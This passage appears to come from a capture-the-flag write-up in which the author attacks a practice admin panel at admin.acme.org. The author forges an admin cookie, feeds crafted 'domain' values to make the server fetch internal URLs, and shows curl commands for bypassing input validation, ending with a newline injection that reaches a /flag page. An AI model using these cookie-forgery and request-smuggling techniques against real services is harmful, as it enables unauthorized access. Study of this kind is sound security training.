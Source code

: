 We've got a BUNCH of base64 encoded data!! I go to decode it expecting it to be a document extolling my technical prowess and I find the default apache page from the original admin panel. Instantly, I remember that there was a /flag URL on that host. Thinking that maybe somehow if I requested that URL from the server it would deliver a different message than "You really thought it would be that easy? Keep digging!"

Attempt #5 through #150:

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"212.tompohl.com/flag.com\"}" http://admin.acme.org/ -v
	...
	{"next":"\/read.php?id=2"}

	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=2 -v
	...
	{"data":"PCFET0NUWVBFIEhUTUwgUFV
	...
	PC9odG1sPgo="}
```

I attempt to figure out how I can request the /flag while keeping .com on the end, so I start discovering the input validation of the script. I find almost every possible way to NOT request the flag.

Examples:

```
	$ -d "{\"domain\":\"212.tompohl.com/flag%00.com\"}"
	{"error":{"domain":"domain cannot contain %"}}

	$ -d "{\"domain\":\"212.tompohl.com/flag#00.com\"}"
	{"error":{"domain":"domain cannot contain #"}}

	...

	$ -d "{\"domain\":\"212.tompohl.com/flag\!00.com\"}"
	{"error":{"body":"unable to decode"}}
```

I even attempt to do string concatenation similar to SQL injection attempts. Nada, nothing, no dice. At this point, I'm almost reaching the "too stupid to give up" portion of the challenge. At some point, I think "what about a carriage return!" and BOOM jackpot!

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"212.tompohl.com/flag\n.com\"}" http://admin.acme.org/ -v
	...
	{"next":"\/read.php?id=164"}
```

An interesting note is that when I added the \n now the id skipped by 2! and when I read the id just before the current "next" value I retrieved this:

```
	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=163 -v
	...
	{"data":"WW91IHJlYWxseSB0aG91Z2h0IGl0IHdvdWxkIGJlIHRoYXQgZWFzeT8gS2VlcCBkaWdnaW5nIQo="}
```
